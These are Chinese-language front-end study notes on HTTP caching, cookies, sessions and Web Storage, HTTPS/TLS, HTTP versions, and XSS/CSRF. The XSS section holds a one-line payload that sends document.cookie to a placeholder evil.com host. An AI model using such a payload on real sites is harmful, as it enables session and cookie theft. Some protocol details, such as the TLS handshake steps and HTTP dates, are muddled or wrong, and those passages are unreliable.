


## 一 浏览器

### 1 状态码: 304

> 回答304便是回答协商缓存
>
> `Last-Modified`与`ETag`同时命中的情况下才会命中弱缓存
>
> 强缓存未命中下， 走入到了协商缓存时候，且命中时给与的响应状态码。

　`if-modified-since (基于最后修改时间)`

#### response header的设置

````js
etag: '5c123132',
last-modified: Mon, 24 Dec 2018 09:49:49 GMT 
````

1. 如app.js打包后变为 app.c20abbde.js，加个唯一hash，也是为了解决缓存问题，etag也是如此目的。
2. last-modified：文件的修改时间

#### 协商缓存的过程

1. 请求返回来 response header 中的 etag和 last-modified

   - 响应头部

     Last-Modified: Fri, 17 Mar 2017 09:42:02 GMT

2. 下次请求时在 request header 就把这两个带上，服务端把你带过来的标识进行对比。

   - 浏览器请求头

     If-Modified-Since: Fri, 17 Mar 2017 09:42:02 GMT

3. 如果更改就直接返回新的资源，和更新对应的response header的标识etag、last-modified

4. 如果资源没有变，那就不变etag、last-modified

此时需要判断返回的是304还是200

- 虽然在返回 304 的时候已经做了一次数据库查询，但是可以避免接下来更多的数据库查询，并且没有返回页面内容而只是一个 HTTP Header

#### Etag

http 1.1 提出了Etag

每个文件都有一个单独的标志，只要这个文件发生了改变，这个标志就会发生变化。

- 如果请求报文的ETag与服务器的不一致，则表示该资源已经被修改过来，需要发最新的内容给浏览器。
- `ETag`也是`首次请求`的时候，服务器返回的:
- `If-None-Match`也是浏览器发送到服务器验证，文件是否改变的:

> Etag的目的:  
>
> 故 last-modified 似乎看起来已经够了！但这些特别情况就是需要etag来处理了来控制缓存。
>
> 1. 一些文件也许内容并不改变(仅仅改变的修改时间)，这个时候我们不希望文件重新加载.
>
>    （Etag值会触发缓存，Last-Modified不会触发）。故我们不修改etag的。
>
> 2. 当修改非常频繁时，Last-Modified无法判断，，重新加载.比方说1s内修改了N次
>
>    此时 Etag更加准确。
>
> 3. 某些服务器不能精确的得到文件的最后修改时间

#### 总体缓存流程

> 发请求-->看资源是否过期-->
>
> 过期-->请求服务器-->服务器对比资源是否真的过期-->过期-->返回200状态码
>
> -->  客户端如第一次接收该资源一样，记下它的cache-control中的max-age、etag、last-modified等。

1. 强缓存

   浏览器请求资源时首先命中资源的Expires 和 Cache-Control，

   Expires 受限于本地时间，如果修改了本地时间，可能会造成缓存失效，毕竟是本地时间。

   可以通过Cache-control: max-age指定最大生命周期（是倒计时），状态仍然返回200，但不会请求数据，在浏览器中能明显看到from cache字样。

2. 协商缓存  Etag 与 If-None-Match 

   强缓存失效进入协商缓存阶段，

   首先验证ETagETag可以保证每一个资源是唯一的，资源变化都会导致ETag变化。

   服务器根据客户端上送的 `If-None-Match` 值来判断是否命中协商缓存。

3. last modify 与 if-modify-since

   协商缓存    Last-Modify/If-Modify-Since阶段，

   客户端第一次请求资源时，服务服返回的header中会加上Last-Modify，Last-modify是一个时间标识该资源的最后修改时间。再次请求该资源时，request的请求头中会包含If-Modify-Since，该值为缓存之前返回的Last-Modify。服务器收到If-Modify-Since后，根据资源的最后修改时间判断是否命中缓存。



### 2 宏任务&微任务&事件循环

- 宏任务  macrotask

  发起者： 宿主（Node、浏览器）

  1. script 整个代码块

  2. setTimeout、setInterval、setImmediate 

  3. UI rendering / UI事件交互事件、requestAnimationFrame (浏览器)

  4. postMessage / MessageChannel 新的语法

     对于两个不同页面的脚本的通信解决的一种解决语法。

  5. I/O 

- **microtask**

  1. Promise的then / catch等回调

  2. MutaionObserver 

     使用MutationObserver监控某个DOM节点，再通过JavaScript来修改这个节点

  3. process.nextTick（Node.js）

  4. Proxy ？ 我不确定？我无法验证这件事 也没有找到文章。

### 3 关于浏览器缓存资源

- 强制缓存

  通俗来讲： 客户端自给自足用的。给资源设置过期时间，一旦过期才去询问服务器。

  1. 【服务器】在第一次请求资源时在 http 响应头设置一个过期时间，在时效内都将直接从浏览器进行获取，常见的 http 响应头字段如 Cache-Control 和 Expires。
  2. 但显然这有致命的缺点，会导致服务器的更新后资源与浏览器不同步的问题。

- 协商缓存

  是我们通过 http 响应头字段 etag 或者 Last-Modified 等判断服务器上资源是否修改，如果修改则从服务器重新获取，如果未修改则 304 指向浏览器缓存中进行获取

#### 1 强缓存

- 浏览器根据 response Headers 字段决定是否缓存资源。故是服务器端对文件进行的缓存配置。

  1. Cache-Control

     ```js
     Cache-Control: private/public
     Cache-Control: max-age=300
     Cache-Control: no-cache
     ```

     - `private` ：仅客户端缓存，代理服务器不缓存。

     - `public` ：该资源既能被浏览器缓存，也能被任何中间人（比如代理服务器、CDN 等）缓存。

     - `max-age` ：够被缓存的最大时间。`为0` 该资源仍然会被浏览器缓存，只不过立刻就过期了。

     - `no-cache` ：

       跳过设置强缓存，但是不妨碍设置协商缓存；

       该资源会被缓存，但是立刻就过期了，因此需要先和服务器确认资源是否发生变化，只有当资源没有变化时，该缓存才会被使用，否则需要从服务器下载。相当于 `max-age=0`

     - `cache-control: no-store`
       不缓存，这个会让客户端、服务器都不缓存，也就没有所谓的强缓存、协商缓存了。

       ⭐ 所以它的真配得上 【缓存控制】这个名字！它真的可以控制两种缓存类型。

  2. Expries => http1.0时代的缓存 

     - 由于使用具体时间，如果时间表示出错或者没有转换到正确的时区都可能造成缓存生命周期出错。
     - 客户端时间会和服务器时间不一致的情况， 故 【cache-control】出现了！
     
     也可以通过此参数来控制缓存
     
     `Expires` 标识了缓存的`具体过期时间`，来控制资源何时过期
     
     ```typescript
     Expires: Fri, 08 Mar 2029 08:05:59 GMT
     Expires: 0 // Expires: 0 仍然会启用缓存，只不过缓存立刻过期。
     ```
     
  3. 当你同时设置这两个强缓存标时

     - Cache-Control: max-age=600

     - Expires: 0

     Cache-Control 的优先级高于 Expires， 显然应该如此。

#### 3 浏览器的默认的协商缓存

即便你不设置 cache-control 与 expries， 浏览器也会具有协商缓存。

- 为什么浏览器会默认有【协商缓存】=> 必然会发起请求，必然是顺手之劳。

- Response Header 中有 Last-Modified 但是没有 Cache-Control 和 Expires 时，

  浏览器会用一套自己的算法来决定这个资源会被缓存多长时间，这便是协商缓存。
  
  协商在于【浏览器】与【服务器】进行协商。

#### 4 缓存位置/命中

以 `billbill`网站为例，便可看到其存在三种不同的size。 这便是缓存位置的不同。


> 1. Service Worker: 浏览器缓存资源的一个网络代理，具体略。
> 2. Memory Cache: 内存缓存
> 3. Disk Cache : 硬盘缓存
> 4. Push Cache： 只在会话（Session）中存在， chrome仅存在5分钟
>
> 若以上依次都没有命中，则发起`网络请求`

#### 5 ⭐ 缓存分类

> 普通刷新会启用协商缓存，忽略强缓存 => 因为刷新必然会走请求，故会跳过本地文件。
>
> 只有在地址栏或收藏夹输入网址、通过链接引用资源等情况下，浏览器才会启用强缓存

1. 强缓存    （也称本地缓存）

   ⭐ 给资源设置个过期时间，客户端每次请求资源时都会看是否过期；只有在过期才会去询问服务器。

   - 强缓存是利用Expires或者Cache-Control，让原始服务器为文件设置一个过期时间，在多长时间内可以将这些内容视为最新的。

   - 若时间未过期，则命中强缓存，使用缓存文件不发送请求。

2. 协商缓存（也称弱缓存）

   ⭐ 协商缓存就是需要客户端和服务器两端进行交互的

> 浏览器缓存机制

1. 会先去缓存里面查看是否命中强缓存，如果命中，则直接从缓存中读取资源，不会发送请求到服务器

   或者 `如果强缓存时间过期， 当然也是属于未命中`

2. 当强缓存没有命中时，浏览器一定会向服务器发起请求。

   - 服务器会根据 Request Header 中的一些字段来判断是否命中协商缓存。

   - 如果命中协商缓存，服务器会返回响应，但是不会携带任何响应实体，只是告诉浏览器可以直接从缓存中获取这个资源。

   - 否则，进入下一步。

3. 如果前两步都没有命中，则直接从服务器加载资源

#### 6 关闭强，关闭强弱

1. cache-control: no-cache

   跳过设置强缓存，但是不妨碍设置协商缓存；

   一般如果你做了强缓存，只有在强缓存失效了才走协商缓存的，设置了no-cache就不会走强缓存了，每次请求都回询问服务端。

   - no-cache，浏览器和缓存服务器都不应该缓存页面信息； 

2. cache-control: no-store

   不缓存，这个会让客户端、代理服务器都不缓存，也就没有所谓的强缓存、协商缓存了

   - no-store，请求和响应的信息都不应该被存储在磁盘系统中；

### 4 浏览器缓存数据 【会话跟踪技术】

> 1.  cookie
> 2. **session**
> 3. **localStorage**
>
> > Cookie通过在客户端记录信息确定用户身份，Session通过在服务器端记录信息确定用户身份。

- cookie、localStorage、sessionStorage既然是同源策略，为什么不安全呢？

  - 你可以设置httponly，即无法通过js读写.

  - 验证码 => 需要验证两个 cookie，一个验证的是用户名，一个验证的是随机数，由于是随机数

    故大大提高了难度

  - 利用加密方式防止明文值被破解

  - **强制要求开启HTTPS连接**

    服务器传送cookie时设置属性secure为true,表示创建的cookie只能在HTTPS连接中被浏览器传递到服务器端进行会话验证

  - 

  1. `xss攻击,` 盗取cookie的数据！获取私有用户的信息。 合肥项目的cookie开发环境的cookie的设置！

     ````js
     new Image().src=”http://www.evil.com?”+escape(document.cookie)
     ````

     即便secure开启且https => 你可以覆盖cookie的方法,对google进行了攻击

     ```js
     document.cookie=”user=admin;domain=’.test.com’;path=’/aaa’;secure;httponly”
     ```

  2. 

#### 1 cookie

- 为什么要有cookie

  1. 在下一个请求发送时，服务器无法确定这次请求和上次的请求是否来自同一个客

     户端。`如何让服务器知道不同的请求是否来自同一个客户端`

     HTTP是一种无状态的协议

  2. cookies就是http的一个扩展

     有两个http头部是专门负责设置以及发送cookie的,它们分别是`Set-Cookie`以及`Cookie`

     - Set-Cookie

       ⭐ 响应的Response Header中的Set-Cookie就是告诉浏览器为当前页面设置cookie。

       1. 客户端建立一个cookie，并且在后续的http请求中自动发送这个cookie到服务器端，直到这个cookie过期。

       2. 如果cookie的生存时间是整个会话期间的话，那么浏览器会将cookie保存在内存中，浏览器关闭时就会自动清除这个cookie

     - Cookie

       保存在客户端， 浏览器关闭的话，该cookie也不会被清除。下次打开浏览器访问对应网站时，这个cookie就会自动再次发送到服务器端。这便是常做的登录缓存。

- cookie的特点

  1. cookie也可以是一个会话！ 

     不设置过期时间，cookie被保存在`内存`中，生命周期`随浏览器的关闭`而`结束`

     除非你`设置`了cookie的过期时间, 

     cookie被保存在`硬盘`中，关闭浏览器后，cookie数据仍然存在，`直到过期时间结束`才消失

  2. cookie每次都会去发送。

     `每次网络请求` Request headers 中都会带上cookie, 故cookie 太多太大会消耗带宽

     一般`浏览器存储cookie` 最大容量为4k，所以大量数据不要存到cookie

     cookie只能保存`字符串`类型，以文本的方式

  3. 保存在客户端上。

- 场景：用于记录不敏感信息
  1. 用户是否登陆过网站,
  2. 保存上次查看的页面、浏览计数这类信息
  
- cookie

  1. 客户端发送一个http请求到服务器端
  2. 服务器端发送一个http相应到客户端，响应头包含Set-Cookie头部
  3. 客户端发送一个http请求到服务器端，请求头包含Cookie头部
  4. 服务器端发送一个http响应到客户端

#### 2  session

> session 是如何诞生的?
>
> > Session是服务器端使用的一种记录客户端状态的机制，使用上比Cookie简单一些，相应的也增加了服务器的存储压力。
>
> - cookie的致命性缺点:
>   1. cookie 是存在客户户端，而且它本身存储的尺寸大小也有限,但这不致命
>   2. `致命的缺点`: 用户可以是可见的，并可以随意的修改，很不安全. cookie存储于客户端

- session的运行机制
  1. 用户第一次的登录 => 浏览器会将用户信息发送给服务器 
  2. 服务器创建SessionId， 响应内容（Cookie）中将该SessionId一并返回给浏览器， 
  3. 浏览将其以特定key值`存储于cookie `【如SessionId】
  4. 下一次服务器接收到请求信息cookie，便可获取Session，可根据SessionId获知用户的Session并返回给浏览器
  
- 应用场景
  1. 与cookie大同小异
  
- 特性：、

  1. session本质也是cookie， 其真正存储的地方cookie是位于服务器。

     只要关闭浏览器， 若弱cookie清空，其浏览器的sessionId会被清空， `但其服务器sessionId绝不会被清空！`

     - sessionId依赖cookie，但该Cookie为服务器自动生成的，它的maxAge属性一般为–1，

       表示仅当前浏览器内有效。其真正存储的地方cookie是位于服务器。

     - 如果客户端浏览器将Cookie功能禁用， session也会失效
  
  2. 这类子窗口会共享父窗口的Cookie，因此会共享一个Session

#### 3 WebStorage

> 即便是 session也无非是借助了cookie, 将任务转移到了服务器端以保证安全性。
>
> 有没有更好的的方案？
>
> 但其实 cookie还是不可获取的，因为我们确实要与服务器端进行交互
>
> Web Storage仅仅是为了在本地“存储”数据而生。

- WebStorage目标
  1. 摆脱cookie
  2. 希望数据量更大
  3. 跨会话

- 共性:

  1. 不与服务器通信。
  2. 可以存储5MB
  3. 字符串类型， 故建议是json字符串

- `改革之处`
1. 不再需要向服务器发送cookie了！不仅更加安全而且更快速了！
  2. 解决了cookie存储空间不足的问题


#### 3.1 localStorage

1. `除非主动删除`。 否则即便是关闭了页面、关闭了浏览器也不销毁。

   同一个浏览器的不同标签页。所以可以共享

2. 场景: 

   常用于长期登录（判断用户是否已登录），适合长期保存在本地的数据 

#### 3.2 sessionStorage

1. 当前会话！

   sessionStorage是不可以非同源跨标签访问的！除非其是同源， 故很适合SPA页面开发.

   `在关闭窗口或`标签页`之后将会删除这些数据。

   而传统的 cookie是目标是当前浏览器进程！

2. 应用场景:

   敏感账号一次性登录；

#### 3.3 token

> 根本原因： 每一台服务器都要保存所有的人的sessionId， 这不利于服务器的拓展与维护。
>
> 人数少倒不计较，人数量一旦增多，岂不是每一次的session联络表都需要重新部署。

- session看起来很完美了，但是负载问题无法解决。

- token相当于明文 + 密钥签名。用户第一次登录成功，我们给与token！

  服务器获取后再解密。我们以解密形式替代session

### 5 https

什么叫https?

http: HyperText Transfer Protocol 超文本传输协议

https并不是一个单纯的协议。

`S` Secure Socket Layer => 即 SSL

- https 是如此的 HTTP => SSL => TCP
- SSL/TLS协议的运行机制   借助数字证书实现了“混合加密（公钥加密法”

#### 01 | 为什么要有https？

请求与响应的报文都是明文。

#### 02 |  SSL / TLS 

SSL是TLS的前身。（目前浏览器大部分不支持SSL，只不过SSL的历史名气极大）

（1） 所有信息都是**加密传播**，第三方无法窃听。 => 窃听

（2） 具有**校验机制**，一旦被篡改，通信双方会立刻发现。 => 篡改风险

（3） 配备**身份证书**，防止身份被冒充。 => 冒充、否认

SSL/TLS协议的基本思路是采用[公钥加密法](https://en.wikipedia.org/wiki/Public-key_cryptography)，

`HTTPS` 做的事情其实就是在传输层跟应用层之间加了一层 `SSL/TLS`，用于对 `TCP` 传输内容的加密和解密。

**（1）如何保证公钥不被篡改？**

> 解决方法：将公钥放在[数字证书](https://en.wikipedia.org/wiki/Digital_certificate)中。只要证书是可信的，公钥就是可信的。

**（2）公钥加密计算量太大，如何减少耗用的时间？**

> 解决方法：每一次对话（session），客户端和服务器端都生成一个"对话密钥"（session key），用它来加密信息。由于"对话密钥"是对称加密，所以运算速度非常快，而服务器公钥只用于加密"对话密钥"本身，这样就减少了加密运算的消耗时间。

####  窃听、篡改与劫持

>  你也可以称呼为伪造


数字证书认证机构处于客户端与服务器双方都可信赖的第三方机构的立场上。

我现在用 保险箱 运货，你们还能撬开我保险箱放广告吗？

1. 窃听问题： 客户端与服务器之间`没有任何身份确认的过程`，且是明文。

   伪造： 伪造数据。

   否认： 我就不承认是我发的，你拿我怎么办？

   - 数字签名解决否认的问题
     - 解决否认的问题 => 签名只能由发送者创建， 接收者只需要验证正确即可。
     - 这便是数字签名，可以避免【否认问题】。

2.  `域名劫持` => 目标域名会被恶意地错误解析到其他IP地址。

   ```js
   # 公共场合的wifi热点
   从2013年年底到2014年10月，陕西人付某和广东人黄某租赁多台服务器，使用恶意代码修改互联网用户路由器的DNS设置，进而使用户登“2345.com”等导航网站时，跳转至其设置的“5w.com”导航网站。最终，法院以破坏计算机信息系统罪判处两名被告人有期徒刑三年，缓刑三年。 
   ```

3.  `数据劫持` =>对于返回的内容会在其中强行插入弹窗或嵌入式广告等其他内容

   运营商中间的路由器解析（或者反代）服务器发给你的页面，向其中插入广告代码。

   ````js
   										 比如你访问的网站突然有一天右下角出现了小广告
   2015年圣诞节互联网大头声泪俱下控诉相关机构 数据劫持/流量劫持 => 淘宝网站 右下角是京东广告
   #  https的数据传输是加密的，中间的路由器无法解码。
   ````

#### TLS - 混合加密

> ⭐ 而TLS使用的便是 混合加密
>
> ⭐  混合加密其实已经解决了 窃听、伪造、否认。但不能解决劫持问题（对方是否是我的目标对象）
>
> - 混合加密机制还是存在一些问题 => 无法证明第一阶段派发的公钥 是货真价实的公钥

`使用加密`    对称加密+非对称加密

1. 对称加密 （同样的加密规则）

   - 加密和解密同用一个密钥, 即**任何人只要持有密钥就能解密了**

   - 以对称加密方式加密时必须将密钥也发给对方。

2. 非对称加密  

   1. 公钥加密【公钥公开】（服务器向外告知的公钥），
   2. 私钥解密【私钥保留】(一般私钥仅在服务器中⭐ 公私钥是成对关系）

   公开密钥加密使用一对非对称的密钥。一把叫做私有密钥，另一把叫做公开密钥

   发送密文的一方使用**公开密钥**进行加密处理，对方收到被加密信息后，再使用自己的私有密钥进行解密。

   - 缺点： 解密效率问题！

3. 对称加密+非对称加密

   - 第一步：非对称加密： 将【密钥】用公钥加密产生密钥密文，对方用私钥解密获取密钥
     - 攻击者无私钥， 无法解密【密钥】以获取【私钥】
   - 第二步： 使用对称加密传输。
     - 使用非对称加密密钥，即使发生泄漏，也因没有私钥无法破解出密钥，所以保证了密钥传输过程中的安全性。密钥安全，日后的信息传输也相当安全

4. 混合密钥存在的问题

   - 秘密替换公钥窃取数据的方法被称为“中间人攻击”

   如果第一步创建的公钥便是被人劫持，中间站自身准备了公钥与私钥。

   不过这种的手段看起来要十分且非常的高超才可以做到吧！

   1. A 使用【伪造公钥】进行加密， 发起请求
   2. 中间者劫取， 使用  【伪造私钥】进行解密。 获得请求数据。再用自己的【伪造公钥】加密变为【伪造私钥】
   3. 服务器返回响应数据。 中间者截取，使用自己【公钥】直接可以解密，获取响应数据。

   

   

#### SSL - 数字证书

> 为了解决 TLS存在无法解决劫持问题。故需要SSL证书！
>
> - SSL证书即保存在源服务器的数据文件
> - 更重要的是这个证书还包括特定的【公钥】与私钥 

1. 服务器的运营人员向第三方机构----数字证书认证机构（Certificate Authority）申请数字证书才可生效。
2. CA给与服务器方
   - 申请者公钥
   - 数字签名的密文
   - 证书信息

#### TLS握手过程

其便是结合 【SSL证书】进行握手，SSL证书的【公钥+私钥】

> 非对称 + 对称

1. Client发送 Hello （TLS版本、加密套件、第一随机数）

2. Serve发送 Hello （TLS版本、加密套件、第二随机数）

   ⭐ 这两个随机数是公开的！

3. 服务器端继续发送 【Certificates】-证书给客户端， 客户端通过CA验证数字证书

4. 继续发送【公钥】发送给客户端， 客户端通过【私钥解密】从此生成第三个随机数，即【预主密钥】

   ⭐ 第一、第二、公钥都可以被窃取，但是公钥被窃取以后，还是无法解密以获取【预主密钥】。

   此时 客户端 有【公钥】【第一】【第二】【预主】

5. Serve Hello Done

6. 【客户端】使用【公钥】加密了【预主密钥】发送出去！

   服务器端使用私钥解密此，获取【预主密钥】

7. 第一 + 第二 + 公钥 获取【会话密钥】。客户端与服务器端都是相同的！

   从此以后就使用【会话密钥】这种对称加密

----

> 此外这还有另一个版本，但我觉得上面那个版本更好！更清楚！

SSL的认证 + TCP 的三次握手。

1. **ClientHello**

   服务器端有私钥与公钥。第一次握手， 客户端发送请求https  与【随机数1】。

2. **-SeverHello**

   服务器返回【证书文件、公钥】、【随机数2】.数字证书的存在保证公钥不被篡改、证书内有公钥

3. **客户端握手结束通知** 

   客户端通过CA验证数字证书， 若不对则向受访者显示警告，并询问是否继续访问。

   并向服务器发送 【随机数3】 ，**此随机数使用证书里的公钥进行加密！**

4. **服务器端握手结束**

   服务器收到客户端第三个进行公钥加密的随机参数，并使用私钥进行解密获取其。

   此时有了三个随机数， 并以此生成会话密钥

   并发送给客户端【握手结束通知】。握手结束。

至此，整个握手阶段全部结束。接下来，客户端与服务器进入加密通信，就完全是使用普通的HTTP协议，只不过用"会话密钥"加密内容。

1. https只是做了加密。 

   - 数字证书避免了 中间人的劫持 => 数据劫持、DNS劫持【大部分程度下】

     保证公钥不被篡改，因为代理商服务器可能不做人。

   - 混合加密 避免了数据的窃听， 保证数据不被解密。

   - 避免【伪造】【否认】 依旧是需要【数字签名】来解决的。

     若是中间人不做人直接对信息进行修改的话。

2. https可以防止dns劫持。因为劫持者没有CA对其域名进行签名的数据。

   但架不住用户如此如此，

   1. 客户单安装的 伪造的 CA 证书，然后被代理服务器劫持。

   2. 没有认证的证书，客户端选择信任。
      1. 不过恶意的让你无法访问的问题依旧是存在的！

#### https 总结

> 是整个握手阶段出现的三个随机数，双方用事先商定的加密方法，各自生成本次会话所用的同一把"会话密钥"
>
> 由于SSL协议中证书是静态的，因此十分有必要引入一种随机因素来保证协商出来的密钥的随机性。
>
> 参考1： https://juejin.cn/post/6844903764399243278 掘金图解
>
> 参考2： http://www.ruanyifeng.com/blog/2014/02/ssl_tls.html

⭐ 此时也是**握手三次握手**阶段。此时SSL/TLS协议运行机制的概述。

#### http区别、https更慢

- https 建立于 SSL加密通道【加密数据】， http是明文传输

   HTTPS 相比 HTTP 多了证书交换和加密的过程

- HTTPS需要用到SSL证书，而HTTP不用;

其次 https被认为性能慢于 http

1. 性能消耗要大于HTTP, 因为并非是纯文本传输数据，**加密通信会消耗更多的CPU及内存资源**	
2. 不过当下越多的优化已经可以忽略他们了

### 6 http1.x与http2.0

文档-1:    https://segmentfault.com/a/1190000015316332

文档-2： https://segmentfault.com/a/1190000012975173?utm_source=sf-similar-article

> 历史的进程已然走到了今天，不知道未来又如何？
>
> 1. 1987年发布http协议1.0版本
>
> 2. 1997年发布http1.1协议 => tcp的复用方案 => 即熟知的 connection: keep-alive特性
>
> 3. 伴随移动端的 的越来越普及，图片与视频的加载越来越多，故 google提出 spdy协议。
>
>    http2即基于spdy协议，目前仍在提案。同期，quic协议提出，基于udp模拟tcp的面向连接。

#### 0 http

1. http是一种协议，http就是一个p（protocol）。

2. http有请求报文与响应报文。

   请求报文

   - 请求行

     起始行： 请求方法 + 请求的URL + 协议的版本号（http的版本号）

   - 请求头部  （请求首部）（消息头部）

     请求头部通知服务器有关于客户端请求的信息

     这里具体是指的是【请求首部】
     
     1. ***\*Accept\**** 客户端接受什么类型的响应
     2. Cookie： 客户端的Cookie就是通过这个报文头属性传给服务端的哦
     3. **Referer**： 从哪个URL过来的
     4. **Cache-Control**： 缓存信息
     
   - 请求体

     

   响应报文：

   - 响应行（状态行）

     1. 服务器http版本号
     2. 服务器状态码、状态码表述

   - HTTP首部（响应头）

     响应报文首部提供的额外信息
     
     1. **Cache-Control** 
     2. **ETag** 
     3. **Set-Cookie** ： 客户端请求服务器，如果服务器需要记录该用户状态，就使用response向客户端浏览器颁发一个Cookie。客户端浏览器会把Cookie保存起来。
     4. **Location** **重定向接收者到一个新URI地址**
     
   - 响应体。

3. 状态码

   2XX 【成功】

   3XX 【重定向】

   4XX【客户端错误】

   5XX【服务器错误】

4. 首部响应

   - content-type 可令浏览器明白如何去处理数据

5. 应用层 - 传输层 - 网际层-网络接口层

   应用层 即 http协议， 您输入 www.billl.bill的网站便是走 应用层的协议请求资源。协议端口号为 80

   HTTP在 TCP基础之上实现，涉及三次握手，四次挥手。TCP不持久化，但HTTP可持久化

6. cookie也是http发展的拓展

#### 1 http的限制

- **特点**：线程阻塞，在同一时间，同一域名的请求有一定数量限制，超过限制数目的请求会被`阻塞`
- 这更像是安全机制： `并发限制`
- 所以真的存在大量的图片， 建议使用两个域名来分别处理。

#### 2 http1.0

- 浏览器与服务器只保持短暂的连接，浏览器的每次请求都需要与服务器建立一个TCP连接

  服务器完成请求处理后立即断开TCP连接，服务器不跟踪每个客户也不记录过去的请求；

  而问题在于 tcp 需要三次 客户端与服务器端的握手才可以，其每次tcp连接的成本很高

- 解决： 添加 `Connction:  keep-alive`

#### 3 http1.1

是改进版本

1. **持久连接**

   - 即默认的Tcp连接便不关闭，且可复用。

     在1.1之后Connection的默认值就是Keep-Alive

2. 管道机制

   复用同一个TCP连接期间，即便是通过管道同时发送了多个请求，服务端也是按请求的顺序依次给出响应的。

   - 故 管道会导致堵塞的问题（而客户端在未收到之前所发出所有请求的响应之前）
   - http2对其进行优化。

3. 分块传输编码（chunk编码）

   - 通常HTTP应答消息中发送的数据是整个发送的
     1. 分块传输编码同意server在最后发送消息头字段， 过去时候在某些情况下，由于响应头特殊的重要性让响应头必须先发送，但是现在响应头可以最后发送了。
     2. 分块传输编码能够用来分隔压缩对象的多个部分，分块编码有利于一边进行压缩一边发送数据

4. 更多的请求方式

   GET, POST 和 HEAD方式 => OPTIONS,、PUT、DELETE,、TRACE 和 CONNECT 方法

5. 缺点

   - 管道机制： 

     用TCP连接，但是同一个TCP连接里面，所有的数据通信是**按次序进行**的。

     `服务器只有处理完一个请求，才会接着处理下一个请求`

   - 解决方案

     减少请求数、或同时多开持久连接

#### 4 http2

> 二进制分帧
>
> http2的头信息现在是 二进制！ 即 帧
>
> HTTP消息分解为很多独立的帧之后，就可以通过优化这些帧的交错和传输顺序
>
> 1. HTTP/2 将请求和响应数据分割为更小的帧，并且它们采用二进制编码
> 2. HTTP 1.x 的文本格式

1. **完全多路复用**

   ⭐ 有了二进制分帧之后，就可以实现完全的多路复用。

   TTP1.X的版本中多想并发请求，则需要多个TCP连接。

   现在：客户端和浏览器都可以同时发送多个请求或回应， 而且不用按照顺序一一对应

   - 实现： 

     一个request对应一个id，这样一个连接上可以有多个request。

     每个连接的request可以随机的混杂在一起，接收方可以根据request的id将request再归属到各自不同的服务端请求里面

2. **报头压缩**

   - 对于相同的头部，不必再通过请求发送，只需发送一次。

     比如每次都发送cookie这件事情！

     客户端和服务器同时维护一张头信息表，所有字段都会存入这个表，产生一个索引号，之后就不发送同样字段了，只需发送索引号

   - 头信息压缩机制， gzip或compress压缩后再发送

3. **服务器推送**

   HTTP/2 允许服务器未经请求，主动向客户端发送资源

#### 4 关于https

https不关心你是htpp1还是http2

HTTP协议通常承载于TCP协议之上， 在HTTP和TCP之间添加一个安全协议层（SSL或TSL），这个时候，就成了我们常说的HTTPS.

### 7 XSS攻击、CSRF攻击

#### XSS攻击

> 跨站脚本攻击(Cross Site Scripting), 与CSS区分， 故称呼为XSS
>
> `原理`:   `“教唆”用户的浏览器去执行一些这个网页中原本不存在的前端代码。`
>
> - 让对方浏览器执行你插入的js

1. **反射型XSS**

   不存储于服务器。

   - 特点： **立刻用于解析和显示该用户的结果页面**

   - 典型例子： 

     通过浏览器地址栏输入的HTTP GET请求参数和页面搜索框输入的POST查询内容。

     恶意用户通过构造含恶意脚本的URL, 发送到各种群、朋友圈、邮箱，诱导用户点击，

     获取点击用户的信息，达到攻击目的。

2. **存储型XSS**

   - 特点： 

     用户通过Web客户端提交给服务端的数据，由服务端保存，然后永久显示在其他用户的页面上

   - 典型例子

     评论中含有恶意脚本，存储在了服务器中，普通用户访问到就会受到攻击，理论上该Web应用的任何用户都是攻击对象

3. DOM型XSS

   DOM中有很多对象，其中一些是用户可以操纵的，如uRI ，location，refelTer等。

   `你可以认为Dom型XSS依然是属于反射型的一种`

   - 特点： 

     客户端的脚本程序可以通过DOM动态地检查和修改页面内容，

     它不依赖于提交数据到服务器端，而从客户端获得DOM中的数据在本地执行

#### CSRF攻击

> CSRF（Cross-site request forgery） => 跨站请求伪造
>
> `攻击者盗用了你的身份，以你的名义发送恶意请求`，
>
> 这种恶意请求会导致
>
> ​		以你名义发送邮件，发消息，盗取你的账号，甚至于购买商品，虚拟货币转账......
>
> ​		造成的问题包括：个人	隐私泄露以及财产安全。

`CSRF攻击的思想`

CSRF需要2个网站

1. 【User】 浏览并登录 网站A， 服务器认为其正确登录并返回其 网站A的Cookie。 一次双向交互
2. 【User】 在没有登出A网站的情况下【cookie未过期，其session依旧有效】，来访问 危险网站【B】
3. `【B】网站要求访问第三方网站【A】，并向A发送一个请求`
4.   浏览器带着`【A】的Cookie`的访问A的服务器
5. 服务器无法识别 发起者是用户还是网站B，此时根据用户的Cookie提供的权限进行正常响应

`举例`

```js
类似这种

```

- 解决办法

  ⭐ 服务端的CSRF方式方法很多样， 最终方案便是客户端页面`增加伪随机数`

  1. 同源检测

